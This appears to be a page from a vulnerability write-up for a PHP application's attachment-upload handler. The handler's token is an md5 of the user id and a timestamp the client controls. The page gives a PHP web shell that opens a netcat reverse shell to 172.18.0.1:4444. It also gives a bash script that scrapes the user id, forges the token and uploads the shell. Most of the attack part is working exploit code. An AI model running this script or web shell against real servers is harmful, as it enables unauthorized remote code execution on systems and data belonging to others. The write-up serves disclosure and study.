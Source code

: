 ```php
...

case 'attachments_upload':
    echo "[DEBUG]: Start\n";

    $verifyToken = md5($app_user['id'] . $_POST['timestamp']);

    if(strlen($_FILES['Filedata']['tmp_name']) and $_POST['token'] == $verifyToken)
    {
        $file = attachments::prepare_filename($_FILES['Filedata']['name']);

        if(move_uploaded_file($_FILES['Filedata']['tmp_name'], DIR_WS_ATTACHMENTS  . $file['folder']  .'/'. $file['file']))
        {
            echo "Hit!";
    ...

        }
    }
    exit();
    break;

...

```

Create a test file to validate that it is correctly uploaded on the server.

File: <span style="color:red">test.php</span>
```php
<?php system("nc -e /bin/sh 172.18.0.1 4444"); ?>
```

#### ʎppᴉʞ ʇdᴉɹɔS

We can try to upload a file manually or perform a quick exploit written in bash.

File: <span style="color:red">exploit.sh</span> 
```bash
BASE_URL=$1
SID=$2
echo "Setting target: $BASE_URL"
echo "Setting sid: $SID"

echo ""

echo "Extracting \$app_user['id']:"
APP_USER_ID=`curl -s "$BASE_URL/index.php?module=users/account" -H "Cookie: sid=$SID" | grep "validate_form&id=" | cut -d '=' -f 3 | cut -d "'" -f 1`
echo "  =>  \$app_user['id']: $APP_USER_ID"

echo "Setting arbitrary \$_POST['timestamp']:"
TIMESTAMP=1337
echo "  =>  \$_POST['timestamp']: 1337"

echo "Calculating \$verifyToken:"
VERIFY_TOKEN=`echo -n "$APP_USER_ID$TIMESTAMP" | md5sum | cut -d ' ' -f 1`
echo "  =>  \$verifyToken: $VERIFY_TOKEN"

echo ""

echo "[*] Trying to upload test.php ..."
curl "$BASE_URL/index.php?module=users/account&action=attachments_upload" -H "Cookie: sid=$SID" -F "timestamp=$TIMESTAMP" -F "token=$VERIFY_TOKEN" -F 'Filedata=@test.php'
```
